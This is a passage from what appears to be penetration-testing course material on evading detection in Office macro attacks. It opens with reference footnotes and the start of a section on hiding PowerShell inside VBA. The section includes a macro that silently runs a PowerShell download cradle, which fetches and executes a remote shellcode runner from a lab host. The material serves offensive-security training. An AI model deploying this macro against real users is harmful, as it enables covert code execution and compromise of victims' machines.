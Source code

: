 1

(Carrie Roberts, 2019), [https://github.com/clr2of8/Presentations/blob/master/DerbyCon2018-VBAstomp-Final-WalmartRedact.pdf](https://github.com/clr2of8/Presentations/blob/master/DerbyCon2018-VBAstomp-Final-WalmartRedact.pdf) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5144-1)

2

(Microsoft, 2020), [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cfb/53989ce4-7b05-4f8d-829b-d08d6148375b) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5144-2)

3

(Inv Softworks LLC, 2020), [http://www.flexhex.com/](http://www.flexhex.com/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5144-3)

4

(Microsoft, 2020), [https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-ovba/ef7087ac-3974-4452-aab2-7dba2214d239](https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-ovba/ef7087ac-3974-4452-aab2-7dba2214d239) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5144-4)

5

(Microsoft, 2020), [https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-ovba/c66b58a6-f8ba-4141-9382-0612abce9926](https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-ovba/c66b58a6-f8ba-4141-9382-0612abce9926) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5144-5)

6

(Stan Hegt, 2019), [https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/](https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5144-6)

## 9.8. Hiding PowerShell Inside VBA

We have previously used the powerful combination of PowerShell and Microsoft Office in a client-side attack. In this section, we will use this powerful combination to further reduce our detection rates.

### 9.8.1. Detection of PowerShell Shellcode Runner

One of the advantages of using the PowerShell shellcode runner is the fact that no first-stage shellcode is embedded in the document that is sent to the victim.

We accomplished this with a PowerShell download cradle that fetched and executed the full shellcode. A recap of that code is shown in Listing 39.

```
Sub MyMacro()
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  Shell strArg, vbHide
End Sub
```
